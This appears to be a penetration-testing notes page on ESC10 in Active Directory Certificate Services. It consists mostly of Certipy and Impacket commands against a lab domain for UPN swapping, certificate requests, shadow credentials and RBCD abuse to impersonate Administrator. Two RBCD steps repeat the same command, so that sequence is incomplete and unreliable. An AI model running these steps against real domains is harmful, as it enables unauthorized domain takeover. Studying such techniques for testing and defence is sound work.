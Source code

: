 ```yaml
---
description: ESC | Active Directory Certificate Services
---
```


# ESC10

ESC10 is a misconfiguration in the `StrongCertificateBindingEnforcement` registry key, that key handles certificate mapping during Kerberos authentication.

```bash
# Reviewing registry keys ad administrator
reg.py 'lab'/'Administrator':'Password123!'@10.129.205.199 query -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\Kdc'

# Get Shadow Credentials user2
certipy shadow auto -u 'BlWasp@lab.local' -p 'Password123!' -account user2

# Change user2 UPN to Administrator
certipy account update -u 'BlWasp@lab.local' -p 'Password123!' -user user2 -upn administrator@lab.local

# Get certificate with User template
certipy req -u 'user2@lab.local' -hashes 2b576acbe6bcfda7294d6bd18041b8fe -ca lab-LAB-DC-CA -template User

# Revert back to user2
certipy account update -u 'BlWasp@lab.local' -p 'Password123!' -user user2 -upn user2@lab.local

# Auth as administrator
certipy auth -pfx administrator.pfx -domain lab.local
```

Another case is related to a misconfiguration in the `CertificateMappingMethods`. Because the registry key handles Schannel authentication we cannot authenticate using PKINIT. On certipy we can use -ldap-shell to authenticate with Schannel

```bash
# Check registry
reg.py 'lab'/'Administrator':'Password123!'@10.129.205.199 query -keyName 'HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL'

# Update account to match DC machine name
certipy account update -u 'BlWasp@lab.local' -p 'Password123!' -user user2 -upn 'lab-dc$@lab.local'

# Get certificate as user2 which will give DC certificate
certipy req -u 'user2@lab.local' -hashes 2b576acbe6bcfda7294d6bd18041b8fe -ca lab-LAB-DC-CA -template User

# Revert changes
certipy account update -u 'BlWasp@lab.local' -p 'Password123!' -user user2 -upn user2@lab.local

# Create new computer account using Schannel
certipy auth -pfx lab-dc.pfx -domain lab.local -dc-ip 10.129.205.199 -ldap-shell

# Set rights RBCD on new computer
certipy auth -pfx lab-dc.pfx -domain lab.local -dc-ip 10.129.205.199 -ldap-shell

# Abuse RBCD and get Service Ticket 
getST.py -spn cifs/LAB-DC.LAB.LOCAL -impersonate Administrator -dc-ip 10.129.205.199 lab.local/'plaintext$':plaintext123
```

{% hint style="danger" %}
With error: `[-] Kerberos SessionError: KRB_AP_ERR_BADMATCH(Ticket and authenticator don't match)` it means that is trying to use the enviroment variable `KRB5CCNAME` we can use the following command to remove the variable: `unset KRB5CCNAME`
{% endhint %}
